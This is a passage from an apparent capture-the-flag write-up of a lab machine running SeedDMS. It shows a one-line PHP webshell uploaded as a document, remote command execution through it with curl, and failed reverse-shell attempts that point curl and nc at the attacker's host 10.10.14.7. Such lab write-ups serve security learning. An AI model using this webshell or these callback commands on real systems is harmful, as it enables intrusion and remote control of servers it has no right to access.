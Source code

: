 It doesn’t look like I have access to upload to the root, but I’ll start digging in folders. Once I get to `/Docs/Users/`, there’s two directories, Michelle and Jack:

![image-20210514125936310](https://0xdfimages.gitlab.io/img/image-20210514125936310.png)

Based on the icon’s not being grayed out, I might have some permissions on Michelle.

Clicking on that, there’s not a bunch of options at the top, including to Add document:

![image-20210514130024685](https://0xdfimages.gitlab.io/img/image-20210514130024685.png)

I’ll upload my favorite simple PHP webshell:

```

<?php system($_REQUEST["cmd"]); ?>

```

![image-20210514130144165](https://0xdfimages.gitlab.io/img/image-20210514130144165.png)

The document ID is 31.

```

oxdf@parrot$ curl http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=id
uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0

```

That’s code execution! This file is deleted every 5-10 minutes, so I may have to upload again, and the document id will increment as well.

### Reverse Shell Fail

I tried a bunch of things to get a reverse shell, but they all failed. When I couldn’t even get `curl` to connect to my host, I guessed maybe a firewall, but it was still acting weird.

```

oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=curl http://10.10.14.7 2>&1'

```

Looking at a `nc` connection back to me, it also failed:

```

oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=nc 10.10.14.7 443 2>&1'
Ncat: Permission denied.

```

Permission denied is interesting. I’ll look at the file:

```

oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /bin/nc'
lrwxrwxrwx. 1 root root 22 May 10 10:56 /bin/nc -> /etc/alternatives/nmap
oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /etc/alternatives/nmap'
lrwxrwxrwx. 1 root root 13 May 10 10:56 /etc/alternatives/nmap -> /usr/bin/ncat
oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /usr/bin/ncat'
-rwxr-xr-x. 1 root root 644376 Nov  8  2019 /usr/bin/ncat

```
